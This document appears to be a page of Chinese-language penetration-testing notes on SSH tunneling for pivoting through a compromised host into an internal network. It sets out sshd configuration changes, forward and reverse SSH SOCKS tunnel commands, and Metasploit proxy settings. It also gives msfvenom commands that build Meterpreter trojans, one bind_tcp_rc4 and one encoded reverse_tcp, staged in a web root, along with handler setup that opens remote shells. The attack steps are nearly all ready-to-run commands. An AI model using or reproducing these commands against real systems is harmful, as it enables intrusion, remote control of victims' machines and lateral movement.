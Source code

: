 #### 正向代理
	SSH动态转发，是建立正向加密的socks通道
	出网靶机编辑后restart ssh服务
	>vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	外部攻击机执行
	>ssh -C -f -N -g -D 0.0.0.0:12138 root@出网靶机IP -p 22
	MSF中设置全局代理或使用其他软件
	>setg proxies socks5:0.0.0.0:12138
	即可进行攻击隔离区机器
![image](/assets/Pentest_Note/master/img/326.png)
![image](/assets/Pentest_Note/master/img/327.png)
#### 反向代理
	>vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	ClientAliveInterval 修改为30-60保持连接
	ClientAliveCountMax 取消注释 发送请求没响应自动断开次数
	107是外网攻击机
	内网靶机执行：
	>ssh -p 22 -qngfNTR 12138:127.0.0.1:22 root@192.168.0.107
![image](/assets/Pentest_Note/master/img/328.png)

	攻击机执行
	>ssh -p 12138 -qngfNTD 12345 root@192.168.0.107
![image](/assets/Pentest_Note/master/img/329.png)
	
	隧道建立，可使用代理软件配置攻击机外网IP:12345访问内网
![image](/assets/Pentest_Note/master/img/330.png)
#### SSH隧道+rc4双重加密
	生成木马
	>msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 rc4password=123456 lport=446 -f exe -o /var/www/html/bind.exe
	MSF设置
	>setg proxies socks5:0.0.0.0:12138
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/bind_tcp_rc4
	>set rc4password 123456
	>set rhost 10.1.1.97
	>set lport 446
![image](/assets/Pentest_Note/master/img/331.png)
#### 公网SSH隧道+Local MSF
	>msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=公网IP LPORT=12138 -f exe –o /var/www/html/1.exe
	Handler监听本地IP:12138
	SSH转发
	>ssh -N -R 12138:本地内网IP:12138 root@公网IP
